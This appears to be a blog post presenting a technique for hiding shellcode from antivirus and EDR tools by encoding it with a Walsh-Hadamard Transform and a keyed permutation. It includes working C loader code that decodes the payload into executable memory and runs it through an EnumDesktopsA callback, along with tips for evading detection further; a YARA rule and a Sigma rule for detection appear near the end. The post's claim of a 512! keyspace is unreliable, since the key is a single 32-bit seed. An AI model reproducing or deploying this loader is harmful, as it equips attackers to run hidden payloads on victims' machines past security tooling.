





If you want to hide shellcode in memory, the usual playbook is classical encryption: AES, ChaCha20, XOR cascades, block ciphers like Speck or Mars. They all work. They also all leave the same footprint. S-boxes, round constants, bitwise rotation patterns, distinctive XOR structures. EDR vendors have been training on these artifacts for years. If your binary ships with an AES S-box or a Speck round function, it gets flagged before it ever runs.
I wanted to try something different. The Walsh-Hadamard Transform (WHT) is a signal processing primitive that converts data into spectral coefficients using only addition and subtraction. The entire computation stays in integer arithmetic. The output is an array of signed integers that looks indistinguishable from telemetry data or audio samples.
What makes WHT interesting here:
WHT decomposes a discrete signal into Walsh functions: square waves that only take values +1 and −1. The Fourier Transform needs sinusoids (continuous, complex-valued). WHT uses binary basis functions (discrete, integer-valued). Simpler math, faster computation.
The transform is defined by the Hadamard matrix H, built recursively:
For N=2, this gives us:
Every entry in the Hadamard matrix is +1 or −1. The entire forward transform is just additions and subtractions. The Fast Walsh-Hadamard Transform (FWHT) uses a butterfly decomposition like the FFT, but without twiddle factors:
At each stage, pairs of elements are combined using this butterfly. After log2(N) stages, the transform is complete. The algorithm runs in O(N log N) time.

WHT is its own inverse. Apply it twice and you get N times the original signal:
Same function for encode and decode. Just divide by N after the second pass. One function instead of two. Half the code footprint versus algorithms that need separate encrypt/decrypt routines.


WHT alone is deterministic. Anyone who knows the algorithm can reverse it. So after the forward transform, we shuffle the spectral coefficients with a seeded permutation. The shuffle acts as our key.
The permutation is a Fisher-Yates shuffle driven by a Linear Congruential Generator (LCG). The LCG parameters (multiplier 1664525, increment 1013904223) come from Numerical Recipes and produce a full-period sequence for any 32-bit seed.
Without the correct key, the inverse permutation produces a wrong coefficient ordering, and the subsequent inverse WHT outputs garbage data:

Keyspace: N! permutations. For our 512-byte padded payload, that is 512! possible orderings. Roughly 101166, or about 3,876 bits of entropy. Over 15x the key bits of AES-256.

The full implementation is a single C file. The only external dependency is the Windows API for the final shellcode execution step. The core transform and keying logic together run about 40 lines.
The entire transform is three nested loops. The outer loop doubles the butterfly span at each stage. The inner loops apply the u + v / u - v butterfly to each pair:
Cvoid fwht(int* a, int n) { for (int len = 1; len < n; len <<= 1) { for (int i = 0; i < n; i += len << 1) { for (int j = 0; j < len; j++) { int u = a[i + j]; int v = a[i + j + len]; a[i + j] = u + v; a[i + j + len] = u - v; } } } }
The function body contains only + and - on integer operands. The compiled binary pulls in none of the transcendental math symbols (sin, cos, exp) that import-table scanners flag.
The keyed permutation shuffles spectral coefficients using Fisher-Yates with a deterministic PRNG. The unscramble function replays the swap sequence in reverse:
Cvoid spectral_scramble(int* a, int n, unsigned int key) { for (int i = n - 1; i > 0; i--) { key = key * 1664525u + 1013904223u; unsigned int j = key % (i + 1); int tmp = a[i]; a[i] = a[j]; a[j] = tmp; } } void spectral_unscramble(int* a, int n, unsigned int key) { unsigned int* idx = (unsigned int*)malloc(n * sizeof(unsigned int)); unsigned int s = key; for (int i = n - 1; i > 0; i--) { s = s * 1664525u + 1013904223u; idx[i] = s % (i + 1); } for (int i = 1; i < n; i++) { int tmp = a[i]; a[i] = a[idx[i]]; a[idx[i]] = tmp; } free(idx); }
The full obfuscation pipeline in main():
C// === ENCODE (offline, in your builder) === unsigned int key = 0xCAFEBABE; // pad to next power of 2, copy bytes into int array int n = 1; while (n < payload_len) n <<= 1; int* signal = (int*)calloc(n, sizeof(int)); for (int i = 0; i < payload_len; i++) signal[i] = (int)payload[i]; for (int i = payload_len; i < n; i++) signal[i] = 0x90; fwht(signal, n); // forward WHT spectral_scramble(signal, n, key); // keyed permutation // === DECODE (at runtime) === spectral_unscramble(signal, n, key); // undo permutation fwht(signal, n); // inverse WHT (same function!) // normalize: divide by N unsigned char* restored = (unsigned char*)malloc(n); for (int i = 0; i < n; i++) restored[i] = (unsigned char)(signal[i] / n); // execute via callback LPVOID mem = VirtualAlloc(NULL, n, MEM_COMMIT, PAGE_EXECUTE_READWRITE); RtlMoveMemory(mem, restored, n); EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
The full source is available on GitHub. For this demo, we use the classic messagebox shellcode (x64, harmless).
Compile with mingw. We skip -lm entirely since the code never touches the math library:
Run on target (Windows 11 x64):
Byte-for-byte restoration, then execution. The spectral coefficients in the middle section (1801, −1585, −1799, ...) are just signed integers. They look like sensor data or audio PCM samples. Nothing about them says "shellcode."
-lm for sin()/cos(). This binary skips it entirely. The PE import directory lists kernel32.dll and user32.dll, identical to any standard Windows application.
Each obfuscation family has a different artifact profile. The contrast matters.
AES / ChaCha / XOR embeds S-boxes and round constants directly in the binary. Any well-written YARA rule picks those up. The encrypted blob also sits near maximum entropy (~8.0), which heuristic engines flag independently. In memory, the data is unsigned char[], the exact type shellcode scanners are trained to inspect.
DFT (Fourier) eliminates crypto-constants but introduces a dependency on -lm for sin()/cos(). The output type is double complex[], which is uncommon enough to stand out in a memory dump. Float rounding also means reconstruction is approximate.
WHT (this approach) eliminates all three problems. The output is int[], the most ordinary data type in C. Reconstruction is exact. The remaining detection surface is purely behavioral: the VirtualAlloc + callback execution pattern at the end.
The obfuscated payload sits in memory as a plain integer array. Heuristic engines scanning for encrypted shellcode blobs (high-entropy byte arrays, unusual imports) find nothing actionable. The decode loop performs +, -, and / on integers, which is what every business application does.
Raw shellcode lives as unsigned char[]. After WHT, it becomes int[] with signed values, including negatives. That crosses a semantic boundary most heuristic engines do not bridge. An array containing values like −1985 and 2635 reads as sensor telemetry, audio PCM samples, or financial tick data. It does not match any known shellcode signature.
This is a mathematical domain shift rather than encryption. The data becomes semantically invisible to tools that operate on byte-level shellcode patterns.
Signature matching will not catch this. The detection surface is behavioral.
PAGE_EXECUTE_READWRITE allocations from non-standard modules.EnumDesktopsA (or similar callback APIs like EnumFontsW, CreateTimerQueueTimer) to transfer execution to allocated memory is a well-documented pattern.int[], performs arithmetic on it, then copies results to RWX memory is suspicious regardless of the transform used.The following YARA rule targets the structural pattern of WHT-based obfuscation. It matches the butterfly loop structure and the combination with memory allocation APIs:
YARArule WHT_Shellcode_Obfuscation { meta: description = "Detects Walsh-Hadamard Transform butterfly pattern near shellcode execution" author = "Arthsome" date = "2026-03-27" strings: // Fisher-Yates LCG constants (multiplier and increment) $lcg_mul = { 0D 66 19 00 } $lcg_inc = { 5F F3 6E 3C } // VirtualAlloc with RWX flags $va = "VirtualAlloc" $rwx = { 40 00 00 00 } // Callback execution APIs $cb1 = "EnumDesktopsA" $cb2 = "EnumDesktopsW" $cb3 = "EnumFontsW" $cb4 = "CreateTimerQueueTimer" condition: uint16(0) == 0x5A4D and $lcg_mul and $lcg_inc and $va and 1 of ($cb*) }
SIGMAtitle: Potential WHT-Based Shellcode Obfuscation status: experimental description: Detects arithmetic-heavy process behavior followed by RWX allocation logsource: category: process_access product: windows detection: selection_alloc: CallTrace|contains: 'VirtualAlloc' selection_callback: CallTrace|contains: - 'EnumDesktopsA' - 'EnumDesktopsW' - 'EnumFontsW' condition: selection_alloc and selection_callback level: high
cocomelonc documented the DFT approach: sin()/cos() converting shellcode into complex frequency-domain noise. WHT does the same domain transformation through a different mathematical path.
DFT uses sinusoidal basis functions, outputs double complex[], needs math.h (-lm), and reconstruction is approximate due to float rounding. It requires a separate IDFT function for decoding. Keying works through a continuous phase shift.
WHT uses Walsh basis functions (+1/−1 only), outputs int[], depends on nothing outside the standard library, and reconstructs the original signal exactly. The transform is self-inverse, so a single function handles both directions. Keying operates through combinatorial spectral permutation, yielding N! keyspace rather than a continuous parameter.
Both run in O(N log N). You could stack them: WHT first, then DFT. An analyst would need to reverse both transforms in the right order.
VirtualAlloc with PAGE_EXECUTE_READWRITE, which is a well-known behavioral indicator. This can be mitigated with two-stage allocation (PAGE_READWRITE then VirtualProtect to PAGE_EXECUTE_READ).